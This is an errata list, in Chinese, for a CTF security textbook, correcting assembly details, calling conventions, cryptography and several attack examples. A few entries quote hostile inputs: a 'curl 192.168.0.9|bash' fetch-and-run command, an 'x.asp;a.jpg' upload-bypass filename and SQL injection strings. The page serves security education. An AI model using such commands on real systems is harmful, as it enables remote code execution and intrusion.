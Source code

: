 # 勘误表

非常感谢各位热心读者对我们书籍的关注, 在书籍出版后, 进行阅读时, 由读者或我们发现了一些错误, 在此页面进行集中更正, 如果读者发现本书部分内容存在问题, 可以向 ***book#nu1l.com*** 发送邮件, 我们将在确认后在此页面即时更新, 并及时交由出版社处理.

## 图片模糊说明

书中确实有黑色背景图片导致模糊不清，我们对此深感歉意，目前已在自查，在第3次印刷中，争取全部替换。

## 勘误表

*版次: 2020年9月第1版 印次: 2020年9月第1次印刷*

| 序号 | 页码   | 修改描述                                                                                      |
| -- | ---- | -----------------------------------------------------------------------------------------                                                       |
| 1  | 目录 | 从“CTF线下赛”页码开始出现错误，需要重新按照实际页数编写                                    |
| 2  | 235页 | 图5-1-1中的“BX AH AL”那3个格子（第2行）改为“`BX BH BL`”                                                  |
| 3  | 237页 | 表5-1-3中所有的“无符号数”与“有符号数”`对调`，“cmp a，b条件”列"jb/jnae/jc"行“a&gt;b”改为"`a<b`", "ja/jnbe"行"a&lt;b"改为"`a>b`"   |
| 4  | 450页 | 1⊕1=1改为`1⊕1=0`, 1+1(mod 2)=1改为`1+1(mod 2)=0`                                                  |
| 5  | 545页 | 10.2.5小节最后一句，“在构造Gadget候重写serialVersionUID有变化的类”修改为“在构造Gadget`时`重写serialVersionUID有变化的类”    |
| 6  | 234页 | 第四自然段中“......都是由COFF（Common File Format）格式发展......”，括号中的英文全称改为“`Common Object File Format`” |
| 7  | 234页 | 倒数第四行，“在指令中显式可见的寄存器”，改为“在`上下文`中显式可见的寄存器”                                                    |
| 8  | 238页 | 第9~10行Mircrosoft x64位调用约定处：“依次将前4个参数放入RDI、RSI、RDX、RCX”改为“依次（从左至右）将前4个参数放入`RCX、RDX、R8、R9`”   |
| 9 | 35页 |四级标题错误，应为`1.3.1.2`，`1.3.1.3`  |
| 10 | 57页 | 第一个图1-3-22为`1-3-21` |

*版次: 2020年9月第1版 印次: 2020年9月第2次印刷*

| 序号 | 页码   | 修改描述                                                                                      |
| -- | ---- | -----------------------------------------------------------------------------------------                                                       |
| 11  | 24页 | sqln1.php源码中，ROM改为`FROM`                                    |
| 12 | 73页 | scoat错误，应为`socat`                                                 |
| 13 | 339页 | 第339页，ASLR部分第二行 “降低攻击者对程序内存结构的了解程序”，删除最后的“`程序`” 二字   |
| 14 | 446页 |表7-3-2右边一列，表7-3-3右边两列是排版错误，应去掉这几列                                                  |
| 15 | 33页 |url中的aaaaaaaaa\应为`aaaaaaaaa'`                                                  |
| 16 | 19页 |SELECT title,content FROM wp_news WHERE id='1'#'”中的1应为`2`                                            |
| 17 | 361页 |Fast Bin Attack 节小标题序号 6.3.6.2 应为 `6.6.3.2`                                                 |                                                |
| 18 | 317页 |base block改为`basic block`（base block也有说法，但普遍都是basic block）                                             |
| 19 | 495页 | 在 lsb_encode 函数中 rgb[i] = rgb[i] & 0xfe + int(msg[count]) & 1 需要改为 `rgb[i] = (rgb[i] & 0xfe) + (int(msg[count]) & 1)` |
| 20 | 29页 | 29页下方的代码中, 第五行(注释将空格替换为空一行), 应改为 $id = str_replace(" ", "", `$id`); |
| 21 | 18页 | 最后一自然段中 sql2.php?id=3-2 应改为 `sql2.php?id=3-1` |
| 22 | 102页 | #generate \`curl 192.168.0.9\|sh\` 应改为 ``#generate `curl 192.168.0.9\|bash` `` |
| 23 | 341页 | 计算机中4种溢出情况中, 最后一种应为`有符号下溢` |
| 24 | 130页 | x.asp,a.jpg应为 `x.asp;a.jpg` |
| 25 | 461页 | 方程组右侧的4个1应为 `1010`，解的结果的0110应该为 `1010` |
| 26 | 467页 | 使用了相同的n,不同的模数e1 应为 `使用了相同的模数n，不同的指数e1` |

## 特别感谢

* [Prowes5](https://prowes5.github.io/): 指出目录页码印刷错误.
* [hustcw](https://blog.wh98.me/): 指出序号2中的错误.
* [流浪者](#): 指出序号9中的错误.
* [ycdxsb](http://blog.ycdxsb.cn/): 指出序号11中的错误.
* [十三年](#): 指出序号14中的错误.
* [Hh0](https://www.cnblogs.com/wrnan/): 指出序号18中的错误.
* [Adbase](#): 指出序号21中的错误.
* [kawhi](#):  指出序号22中的错误.
* [NWPU-feng](#):  指出序号24中的错误.
* [Brucy](https://blog.csdn.net/qq_41252520):  指出序号25中的错误.
